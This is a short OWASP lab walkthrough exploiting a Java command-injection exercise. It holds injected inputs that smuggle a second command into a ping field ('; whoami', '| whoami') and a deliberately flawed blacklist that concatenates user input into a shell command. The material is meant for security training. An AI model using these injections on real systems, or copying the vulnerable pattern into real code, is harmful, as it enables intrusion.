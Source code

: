 # Command Injection 4 - CMD4

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-cmd4
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-cmd4
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

When we start the application we can see that we can ping an adress.

![](../../.gitbook/assets/java/CMD4/1.png)

Let's try to ping 127.0.0.1

![](../../.gitbook/assets/java/CMD4/2.png)

We get back the output of the ping command which tell us this might be vulnerable to a command injection.

## Exploitation

Let's try chaining commands

```text
127.0.0.1 ; whoami
```

We get nothing back, maybe this application has a blacklist

```java
ip.replace("`", " ");
ip.replace(";", " ");
ip.replace("&", " ");
Process pb = new ProcessBuilder("/bin/sh", "-c",
    "ping -c1 " + ip + " > ./ping_output")
    .redirectErrorStream(true)
    .start();
```

We can see in this piece of code the app is removing certain dangerous characters in an attempt to avoid some kind of command injection. Unfortunately there are ways to bypass this blacklist approach.
Let's try piping the commands:

```text
127.0.0.1 | whoami
```

![](../../.gitbook/assets/java/CMD4/3.png)

And we have a command injection!

## Additional sources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html" %}
